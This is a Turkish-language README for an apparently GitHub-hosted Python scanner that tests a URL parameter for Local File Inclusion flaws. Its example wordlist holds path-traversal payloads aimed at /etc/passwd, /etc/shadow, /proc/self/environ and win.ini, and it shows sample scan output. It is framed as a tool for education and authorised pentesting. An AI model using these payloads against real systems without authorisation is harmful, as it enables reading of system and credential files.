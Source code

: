 
# 🕵️‍♂️ LFI Tarayıcı (Local File Inclusion Vulnerability Scanner)

Bu Python aracı, web uygulamalarında **LFI (Local File Inclusion)** güvenlik açıklarını taramak için geliştirilmiştir. Basit ama etkili bir şekilde belirli bir URL ve parametre üzerinde LFI payload'larını deneyerek zafiyet olup olmadığını kontrol eder.

---

## 🚀 Kurulum

### Gereksinimler
- Python 3.6+
- `requests` ve `colorama` kütüphaneleri

### Kurulum Adımları

```bash

https://github.com/vedattascier/lfi.git
cd lfi
pip install -r requirements.txt
```

---

## ⚙️ Kullanım

```bash
python lfi.py
```

Program çalıştıktan sonra senden şu bilgileri ister:

- 🔗 **Hedef URL** (örn: `http://example.com/page.php`)
- 🧩 **Parametre İsmi** (örn: `file`)
- 📄 **Payload Dosyası** (örn: `wordlist.txt`)

### Örnek:

```bash
python lfi.py
```

```plaintext
Hedef URL'yi girin: http://example.com/view.php
Parametre adını girin: page
Payload dosyasının adını girin: wordlist.txt
```

---

## 📝 Payload Dosyası Formatı (`wordlist.txt`)

Her satırda bir payload olacak şekilde hazırlanmalıdır. Örnek içerik:

```
../../../../etc/passwd
../../../../../../windows/win.ini
....//....//....//....//etc/shadow
../../../../proc/self/environ
```

---

## 🔍 Örnek Çıktı

```plaintext
[i] Scanning http://example.com/view.php with param 'page'...
[+] Vulnerable: http://example.com/view.php?page=../../../../etc/passwd
[-] Error accessing: http://example.com/view.php?page=....//....//proc/self/environ
```

---

## 🛡️ Güvenlik Notu

Bu araç sadece **eğitim** ve **pentest** amaçlı kullanılmalıdır. İzin almadan bir sisteme uygulamak **yasal suçtur**.

---


